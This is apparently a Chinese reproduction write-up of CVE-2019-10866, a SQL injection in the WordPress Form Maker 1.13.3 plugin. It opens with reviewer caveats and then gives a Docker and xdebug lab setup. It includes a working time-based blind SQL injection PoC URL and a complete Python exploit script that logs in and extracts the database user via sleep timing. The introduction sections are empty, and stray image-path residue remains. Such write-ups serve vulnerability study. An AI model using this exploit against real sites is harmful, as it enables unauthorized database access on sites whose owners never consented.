

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：1.13.3 tested WP5.2.2/PHP7; permission to submissions_fm and populatedform/current_id2; SQL user() extraction

- **适用与权限边界（1）**：login函数忽略传入username/password固定admin，参数修改不生效且不确认登录成功。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（2）**：TIME3单次时延判定无基线/复测，网络抖动可误报；固定wp_users前缀/current_id需说明。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（3）**：标题未体现登录角色，影响范围栏空，缺修复版/精确EDB链接。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（4）**：图片链接后重复路径尾巴及末尾image显示转换污染；源码分析未出现。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE- 2019-10866）WordPress Plugin - Form Maker 1.13.3 sql注入
===============================================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

运行环境很简单，只是在vulapps的基础环境的上加了xdebug调试插件，把docker容器作为远程服务器来进行调试。
Dockerfile文件:

    FROM medicean/vulapps:base_lamp_php7

    RUN pecl install xdebug

    COPY php.ini /etc/php/7.0/apache2/
    COPY php.ini /etc/php/7.0/cli/

docker-compose文件:

    version: '3'
    services:
      lamp-php7:
        build: .
        ports:
          - "80:80"
        volumes:
          - "/Users/mengchen/Security/Code Audit/html:/var/www/html"
          - "/Users/mengchen/Security/Code Audit/tmp:/tmp"

php.ini中xdebug的配置

    [xdebug]
    zend_extension="/usr/lib/php/20151012/xdebug.so"
    xdebug.remote_enable=1
    xdebug.remote_host=10.254.254.254
    xdebug.remote_port=9000
    xdebug.remote_connect_back=0
    xdebug.profiler_enable=0
    xdebug.idekey=PHPSTORM
    xdebug.remote_log="/tmp/xdebug.log"

因为我是在Mac上，所以要给本机加一个IP地址，让xdebug能够连接

    sudo ifconfig lo0 alias 10.254.254.254

PHPStorm也要配置好相对路径:

WordPressPlugin-FormMaker1.13.3sql注入/media/rId25.png)

插件下载地址:

    https://downloads.wordpress.org/plugin/form-maker.1.13.3.zip

WordPress使用最新版就可以，在这里我使用的版本是5.2.2，语言选的简体中文。

PS: WordPress搭建完毕后，记得关闭自动更新。

### POC

    http://0-sec.org/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc=,(case+when+(select+ascii(substring(user(),1,1)))%3d114+then+(select+sleep(5)+from+wp_users+limit+1)+else+2+end)+asc%3b

Python脚本，修改自exploit-db

    #coding:utf-8
    import requests
    import time

    vul_url = "http://127.0.0.1/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc="
    S = requests.Session()
    S.headers.update({"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,en;q=0.8,zh;q=0.5,en-US;q=0.3", "Referer": "http://127.0.0.1/wp-login.php?loggedout=true", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close", "Upgrade-Insecure-Requests": "1"})
    length = 0
    TIME = 3
    username = "admin"
    password = "admin"

    def login(username, password):
        data = {
            "log": "admin", 
            "pwd": "admin", 
            "wp-submit": "\xe7\x99\xbb\xe5\xbd\x95", 
            "redirect_to": "http://127.0.0.1/wp-admin/", 
            "testcookie": "1"
            }
        r = S.post('http://127.0.0.1/wp-login.php', data=data, cookies = {"wordpress_test_cookie": "WP+Cookie+check"})

    def attack():
        flag = True
        data = ""
        length = 1
        while flag:
            flag = False
            tmp_ascii = 0
            for ascii in range(32, 127):
                tmp_ascii = ascii
                start_time = time.time()
                payload = "{vul_url},(case+when+(select+ascii(substring(user(),{length},1)))%3d{ascii}+then+(select+sleep({TIME})+from+wp_users+limit+1)+else+2+end)+asc%3b".format(vul_url=vul_url, ascii=ascii, TIME=TIME, length=length)
                #print(payload)
                r = S.get(payload)
                tmp = time.time() - start_time
                if tmp >= TIME:
                    flag = True
                    break
            if flag:
                data += chr(tmp_ascii)
                length += 1
            print(data)
    login(username, password)
    attack()

image
